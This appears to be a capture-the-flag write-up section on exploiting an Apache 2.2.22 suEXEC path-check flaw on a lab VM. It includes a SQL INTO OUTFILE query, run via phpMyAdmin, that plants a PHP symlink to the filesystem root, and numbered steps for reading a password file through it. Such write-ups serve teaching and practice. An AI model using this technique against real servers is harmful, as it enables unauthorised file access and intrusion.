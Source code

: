 # Bonus: suExec

Apache is running with the version 2.2.22

After some research, we found this version is vulnerable. The suEXEC vulnerability is a path traversal. We can do a symlink with / and a php page to access a files the user www-data can read

Path checking code design error, subdirectory entry is determined via `strncmp()`, i.e. in addition to the directory `/var/www/html` described in the configuration, the check will also be successful for `/var/www/html_backup` or `/var/www/htmleditor`.

We can found an exploit here : exploit-db.com/exploits/27397

We can exploit it by uploading a PHP page (with a SQL request in phpmyadmin like in the writeup1)
```SQL
SELECT 1, '<?php symlink(\"/\", \"paths.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

1. https://192.168.56.104/phpmyadmin/index.php -> db phpmyadmin -> `localhost -  phpmyadmin -  pma_bookmark "Bookmarks"` -> execute the SQL request
2. open https://192.168.56.104/forum/templates_c/run.php
3. open https://192.168.56.104/forum/templates_c/paths.php
4. open `/home/LOOKATME/password` https://192.168.56.104/forum/templates_c/paths.php/home/LOOKATME/password

**🏁 Finally we are Root**
